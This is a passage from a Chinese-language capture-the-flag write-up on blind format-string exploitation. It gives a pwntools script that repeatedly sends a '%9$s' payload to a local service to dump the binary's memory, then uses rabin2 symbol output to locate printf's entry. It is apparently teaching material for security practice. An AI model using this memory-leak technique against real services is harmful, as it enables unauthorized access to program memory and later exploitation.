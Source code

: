 

#### dump源程序

虽然我们这里拿到了源程序，但是比赛中是没提供源程序的，所以要自己用前面的漏洞dump出来

通过前面的漏洞，猜测程序未打开PIE，加载地址未0x8048000

使用`"%9$s.AAA" + p32(start_addr)`格式化是因为printf在打印`\x00`的时候会认为是截断符号，就不会打印任何东西，所以这里将第二个参数设置未`.AAA`来表示这次printf输出了多少数据，如果前面为空，那么就是截断符号，要手动修改.

dump脚本如下

```python
from pwn import *
def dump_memory(start_addr, end_addr):
    result = ""
    while start_addr < end_addr:
        p = remote('127.0.0.1', '10001')
        p.recvline()
        #print result.encode('hex')
        payload = "%9$s.AAA" + p32(start_addr)
        p.sendline(payload)
        data = p.recvuntil(".AAA")[:-4]
        if data == "":
            data = "\x00"
        log.info("leaking: 0x%x --> %s" % (start_addr, data.encode('hex')))
        result += data
        start_addr += len(data)
        p.close()
    return result
start_addr = 0x8048000
end_addr   = 0x8049000
code_bin = dump_memory(start_addr, end_addr)
with open("code.bin", "wb") as f:
    f.write(code_bin)
    f.close()
```

#### 获取printf_got

拿到部分重要的源代码后，就可以在rabin2中来识别符号了，imp.printf 虚拟地址为 0x08048400

```shell
[0x08048490]> is
[Symbols]

nth paddr       vaddr      bind   type   size lib name
――――――――――――――――――――――――――――――――――――――――――――――――――――――
11   ---------- 0x080499a4 GLOBAL OBJ    4        stdout
12   0x0000071c 0x0804871c GLOBAL OBJ    4        _IO_stdin_used
13   ---------- 0x080499a0 GLOBAL OBJ    4        stdin
1    0x000003f0 0x080483f0 GLOBAL FUNC   16       imp.setbuf
2    0x00000400 0x08048400 GLOBAL FUNC   16       imp.printf
3    0x00000410 0x08048410 GLOBAL FUNC   16       imp.fgets
4    0x00000420 0x08048420 GLOBAL FUNC   16       imp.alarm
6    ---------- 0x00000000 WEAK   NOTYPE 16       imp.__gmon_start__
7    0x00000440 0x08048440 GLOBAL FUNC   16       imp.strchr
8    0x00000450 0x08048450 GLOBAL FUNC   16       imp.strlen
9    0x00000460 0x08048460 GLOBAL FUNC   16       imp.__libc_start_main
10   0x00000470 0x08048470 GLOBAL FUNC   16       imp.putchar
```
